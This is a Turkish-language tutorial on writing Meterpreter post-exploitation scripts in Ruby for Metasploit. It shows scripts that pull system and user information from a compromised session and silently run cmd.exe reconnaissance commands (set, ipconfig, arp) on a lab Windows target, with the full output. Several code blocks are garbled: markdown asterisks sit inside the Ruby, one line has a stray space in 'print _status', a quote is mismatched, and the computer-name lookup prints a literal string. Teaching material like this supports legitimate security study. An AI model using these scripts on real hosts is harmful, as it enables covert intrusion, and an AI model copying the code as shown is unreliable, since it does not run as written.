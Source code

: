 ```yaml
---
draft: false
title: MSF Meterpreter Script Düzenleme
linkTitle: Meterpreter Script Düzenleme
translationKey: msf-meterpreter-script-editing
weight: 350
date: 2017-06-14T13:49:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Meterpreter Scriptin kodların ne sonuç döndürdüğünü parça parça göreceğiz.
url: /tr/msf-meterpreter-script-duzenleme/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## Script Yazma

Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.

```bash
root@kali:~# echo “print_status(“Hello World”)” > /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```

Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.

```bash
meterpreter > run helloworld
> Hello World
meterpreter >
```

Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.

```bash
print_error(“this is an error!”)
print_line(“this is a line”)
```

Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.

```bash
meterpreter > run helloworld
> Hello World
[-] this is an error!
this is a line
meterpreter >
```

## helloworld.rb

Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.

```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```

Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.

```bash
 def geninfo(session)
    begin
    …..
    rescue ::Exception => e
    …..
    end
 end
```

Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.

```bash
 def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print_status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
    rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end
```

Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.

## helloworld2.rb

İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.

```bash
 def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print _status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
 rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end

 getinfo(client)
```

Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.

```bash
 meterpreter > run helloworld2
 > Getting system information ...
 >     The target machine OS is Windows XP (Build 2600, Service Pack 3).
 >     The computer name is Computer
 >     Script running as WINXPVM01labuser
```

Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.

## helloworld3.rb

Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.

```bash
def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r=''
    session.response_timeout=120
    cmdlst.each do |cmd|
       begin
          print_status "running command #{cmd}"
          r = session.sys.process.execute("cmd.exe /c #{cmd}", nil, {'Hidden' => true, 'Channelized' => true**})**
          **while**(d = r.channel.read)             print_status("t#{d}")
          end
          r.channel.close
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end commands = [ "set",
    "ipconfig  /all",
    "arp -a"] list_exec(client,commands)
```

Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.

`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.

```bash
 commands = [ “set”,
    “ipconfig  /all”,
    “arp –a”]
```

Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.

Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.

```bash
 meterpreter > run helloworld3
 > Running Command List ...
 >     running command set
 >     ALLUSERSPROFILE=C:\Documents and Settings\All Users
 APPDATA=C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles=C:\Program Files\Common Files
 COMPUTERNAME=TARGET
 ComSpec=C:\WINNT\system32\cmd.exe
 HOMEDRIVE=C:
 HOMEPATH=
 LOGONSERVER=TARGET
 NUMBER_OF_PROCESSORS=1
 OS=Windows_NT
 Os2LibPath=C:\WINNT\system32\os2dll;
 Path=C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE=x86
 PROCESSOR_IDENTIFIER=x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL=6
 PROCESSOR_REVISION=0706
 ProgramFiles=C:\Program Files
 PROMPT=$P$G
 SystemDrive=C:
 SystemRoot=C:\WINNT
 TEMP=C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP=C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN=TARGET
 USERNAME=P0WN3D
 USERPROFILE=C:\Documents and Settings\P0WN3D
 windir=C:\WINNT >     running command ipconfig  /all
 >     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM >     running command arp -a
 >     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter >
```

Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.

